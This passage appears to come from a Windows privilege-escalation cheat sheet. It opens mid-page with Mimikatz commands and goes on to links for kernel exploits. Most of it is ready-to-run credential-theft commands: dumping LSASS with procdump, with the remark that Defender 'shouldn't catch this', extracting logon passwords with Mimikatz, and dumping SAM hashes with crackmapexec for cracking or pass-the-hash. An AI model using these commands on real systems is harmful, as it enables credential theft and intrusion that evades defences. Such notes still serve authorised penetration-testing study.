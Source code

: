      privilege::debug 
     token::elevate 
     lsadump::sam  
     
Dump lsass, then use Mimikatz to extract hashes locally (Windows Defender shouldn't catch this):   

     .\procdump64.exe -accepteula -ma lsass.exe lsass.dmp    
     #then run the below commands on a local Window box   
     .\mimikatz.exe      
     mim# sekurlsa::minidmp lsass.dmp        
     mim# sekurlsa::logonPasswords full    
Using crackmapexec to dump creds from a standalone Windows box:     

    crackmapexec smb 10.10.10.10 -u UserNAme -p 'PASSWORDH' --sam   #dump SAM - needs admin creds      

*then crack hashes or use pass the hash to login* 
[Online hash cracker](https://crackstation.net/) 
     
## Kernel exploits   
Check system architechure:

    systeminfo | findstr /B /C:"OS Name" /C:"OS Version"     
    
Check for Hotfixes:    

    wmic qfe get Caption,Description,HotFixID,InstalledOn     

Tools to use   
https://github.com/bitsadmin/wesng      
https://github.com/rasta-mouse/Watson   
### Kernel Exploit Isn't Working
[x32-bit vs x64-bit](https://spencerdodd.github.io/2017/07/20/WOW64/) 
Check arch of running Powershell process (could get a 32 bit process on 64 bit machine if payload uses relative path)

    #32 bit 
    [IntPtr]::size -eq 4       
    
    #64 bit
    [IntPtr]::size -eq 8
    [Environment]::Is64BitProcess
    
Absolute PowerShell executable paths:

    #32-bit (x86)
    C:\Windows\SysWow64\WindowsPowerShell\v1.0\powershell.exe
    C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe

    #64-bit (x64) 
    C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe
    C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe
    
### Precompiled Kernel Exploits
https://github.com/SecWiki/windows-kernel-exploits   

## Misc  
[Print Demon](https://windows-internals.com/printdemon-cve-2020-1048/)  
[SYSTEM Nightmare](https://github.com/GossiTheDog/SystemNightmare) Print nightmare implementation   
[CVE 2019-1388](https://github.com/jas502n/CVE-2019-1388)   
[Windows 10 Exploits](https://github.com/nu11secur1ty/Windows10Exploits)    
____   
